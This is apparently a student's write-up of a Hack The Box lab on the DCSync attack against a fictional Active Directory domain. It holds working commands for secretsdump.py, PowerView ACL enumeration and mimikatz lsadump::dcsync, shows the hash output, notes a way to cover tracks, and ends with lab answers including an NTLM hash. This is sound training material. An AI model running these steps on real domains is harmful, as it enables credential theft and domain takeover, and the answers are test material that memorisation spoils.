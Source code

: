 # DCSync

So we remember that `adunn` has DCSync privileges in the INLANEFREIGHT.LOCAL domain.

{% hint style="success" %}
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption><p><strong>adunn's Replication Privileges</strong></p></figcaption></figure>

**Using Get-DomainUser to View adunn's Group Membership**

```sh
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

<SNIP>

objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
```

Now that we have the sid of the user we can search specifically for replication rights and check if our user `adunn` possesses these rights

```sh
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

{% hint style="info" %}
DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py
{% endhint %}

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
ElFelixi0@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user.

**Viewing an Account with Reversible Encryption Password Storage Set**

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

When this option is set on a user account the passwords are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent. Tools such as `secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync. We can enumerate this using the `Get-ADUser` cmdlet:

```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
<SNIP>
```

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

then we wan read the password just like this ->

```shell-session
ElFelixi0@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 
```

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

This will spawn a shell for us, in this new shell we can run mimikatz ->

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>

```

***

_**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

_**What is this user's cleartext password?**_

after ssh to htb-student on through RDP like said at the beginning at the course ->

```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

_**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>
